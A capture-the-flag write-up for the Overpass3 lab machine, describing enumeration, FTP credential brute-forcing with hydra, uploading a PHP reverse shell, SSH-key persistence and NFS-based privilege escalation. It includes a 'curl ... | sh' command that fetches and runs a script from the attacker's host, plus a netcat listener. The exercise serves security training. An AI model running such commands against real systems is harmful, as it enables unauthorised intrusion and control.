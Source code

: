 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

We are logged into ssh as paradox and we want to get access to the james user.

[![https://imgur.com/vjgiKIG.png](https://imgur.com/vjgiKIG.png)](https://imgur.com/vjgiKIG.png)

We see that the folder of james is shared /home/james.

So we can mount it as paradox and then access the content, right?

No, :( because we ain't root.

So we need a way to mount as root.. Where do we have root access? On our own machine! 

So we find the port that the service is running on, normally we would do that with netstat but since its not available we run rpcinfo.

[![https://imgur.com/yQwrJH0.png](https://imgur.com/yQwrJH0.png)](https://imgur.com/yQwrJH0.png)

We can see on which port nfs is running: 2049.

Now since we have access to paradox with ssh we can PORTFORWARD.

ssh paradox@10.10.185.59 -i paradox -L 2049:localhost:2049

[![https://imgur.com/WJ5ae58.png](https://imgur.com/WJ5ae58.png)](https://imgur.com/WJ5ae58.png)

that means we can send our mount command from our host machine ( where we cant access the port 2049 of the target because its locally ) through the ssh port 22 where we have access to and then locally we can access again the port 2049 and since we have root privileges on our host we can mount the folder.

[![https://imgur.com/zk99jhr.png](https://imgur.com/zk99jhr.png)](https://imgur.com/zk99jhr.png)

We successfully mounted through an SSH-Tunnel :) 

Lets see what we find in the share.

A user flag! 

[![https://imgur.com/jU8g4fA.png](https://imgur.com/jU8g4fA.png)](https://imgur.com/jU8g4fA.png)

And ssh credentials from james !

[![https://imgur.com/0uV8IsI.png](https://imgur.com/0uV8IsI.png)](https://imgur.com/0uV8IsI.png)

Lets loginto his account with ssh.

[![https://imgur.com/ZayPFoa.png](https://imgur.com/ZayPFoa.png)](https://imgur.com/ZayPFoa.png)

Now we can upload a binary, give it SUID privileges from our HOST since we are root there.

[![https://imgur.com/islUKnK.png](https://imgur.com/islUKnK.png)](https://imgur.com/islUKnK.png)

[![https://imgur.com/tpqioux.png](https://imgur.com/tpqioux.png)](https://imgur.com/tpqioux.png)

And then we can execute it with the flag -p so the set permission is not reset.

[![https://imgur.com/gzXSQgw.png](https://imgur.com/gzXSQgw.png)](https://imgur.com/gzXSQgw.png)



